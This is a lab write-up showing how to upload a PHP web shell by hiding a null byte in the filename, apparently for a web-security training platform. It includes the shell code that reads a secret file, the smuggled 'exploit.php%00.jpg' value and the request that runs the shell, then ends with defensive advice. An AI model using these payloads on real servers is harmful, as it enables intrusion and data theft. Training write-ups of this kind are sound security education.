







# Lab 5 — Web Shell Upload via Obfuscated File Extension

> [← Back to File Upload Vulnerabilities](../README.md)

---

## 🎯 Objective
The server only allows `.jpg` and `.png` files. Bypass the filter using a **null byte injection** in the filename — the server truncates at `%00` and saves the file as `.php`.

---

## 🪜 Steps

### Step 1 — Login
Credentials: `wiener:peter`



---

### Step 2 — Try uploading PHP — blocked
Create `exploit.php` with:
```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```
Server response: `Only JPG & PNG files are allowed`


---

### Step 3 — Capture request in Burp and inject null byte
In Burp Repeater, modify the filename:
```
filename="exploit.php%00.jpg"
```

The `%00` is a **null byte** — the server-side string handling truncates everything after it, saving the file as `exploit.php` while the extension check sees `.jpg` and passes it.




---

### Step 4 — Upload successful
Server response:
```
The file avatars/exploit.php has been uploaded
```



---

### Step 5 — Execute payload
```
GET /files/avatars/exploit.php
```



---

### Step 6 — Lab solved ✅




---

## ✅ Result
Lab solved!

---

## 💡 Key Takeaway
Null byte injection (`%00`) exploits how some languages (especially older PHP and C-based code) terminate strings. Always sanitize filenames by stripping non-printable characters and validating extensions after full URL decoding.
